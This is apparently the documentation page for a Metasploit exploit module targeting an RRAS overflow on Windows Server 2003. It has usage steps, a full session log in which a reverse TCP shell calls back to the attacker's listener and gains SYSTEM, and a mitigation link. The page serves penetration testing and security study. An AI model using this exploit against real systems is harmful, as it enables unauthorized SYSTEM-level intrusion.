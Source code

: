 ## Vulnerable Application

This module exploits an overflow in the Windows Routing and Remote
Access Service (RRAS) to execute code as SYSTEM.

The RRAS DCERPC endpoint is accessible to unauthenticated users via
SMBv1 browser named pipe on Windows Server 2003 and Windows XP hosts;
however, this module targets Windows Server 2003 only.

Since the service is hosted inside `svchost.exe`, a failed exploit
attempt can cause other system services to fail as well.
    
The module has been successfully tested on:

* Windows Server 2003 SP0 (x86)
* Windows Server 2003 SP1 (x86)
* Windows Server 2003 SP2 (x86)
* Windows Server 2003 R2 SP2 (x86)

## Verification Steps

Windows:

* Launch `services.msc`
* Start `Routing and Remote Access Service`

Note that the service may take up to one minute to start.

Metasploit:

1. Start msfconsole
1. Do: `use exploit/windows/smb/smb_rras_erraticgopher`
1. Do: `set rhosts <rhosts>`
1. Do: `run`
1. You should get a `SYSTEM` shell.

## Options

### SMBPIPE

The pipe name to use (default: `browser`)

## Scenarios

### Windows Server 2003 R2 SP2 (x86)

```
msf > use exploit/windows/smb/smb_rras_erraticgopher 
[*] Using configured payload windows/shell/reverse_tcp
msf exploit(windows/smb/smb_rras_erraticgopher) > set rhosts 172.16.191.171
rhosts => 172.16.191.171
msf exploit(windows/smb/smb_rras_erraticgopher) > check
[*] 172.16.191.171:445 - The service is running, but could not be validated. RRAS enabled and accessible.
msf exploit(windows/smb/smb_rras_erraticgopher) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf exploit(windows/smb/smb_rras_erraticgopher) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] 172.16.191.171:445 - Binding to 8f09f000-b7ed-11ce-bbd2-00001a181cad:0.0@ncacn_np:172.16.191.171[\browser] ...
[*] 172.16.191.171:445 - Bound to 8f09f000-b7ed-11ce-bbd2-00001a181cad:0.0@ncacn_np:172.16.191.171[\browser] ...
[*] 172.16.191.171:445 - Selecting a target ...
[*] 172.16.191.171:445 - Fingerprint: Windows 2003 R2 (Service Pack 2) - Language: Unknown
[*] 172.16.191.171:445 - Could not detect the language pack, defaulting to English
[*] 172.16.191.171:445 - Using target: Windows Server 2003 R2 SP2 (English) (NX)
[*] 172.16.191.171:445 - Calling RRAS MIBEntryGet with payload (1876 bytes) ...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 172.16.191.171
[*] Command shell session 1 opened (172.16.191.192:4444 -> 172.16.191.171:1029) at 2021-03-02 18:57:40 -0500

Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

## Mitigation

Microsoft have released KB4024323 for Windows 2003 and Windows XP:

* https://support.microsoft.com/en-us/topic/microsoft-security-advisory-4025685-guidance-for-older-platforms-june-13-2017-05151e8a-bd7f-f769-43df-38d2c24f96cd


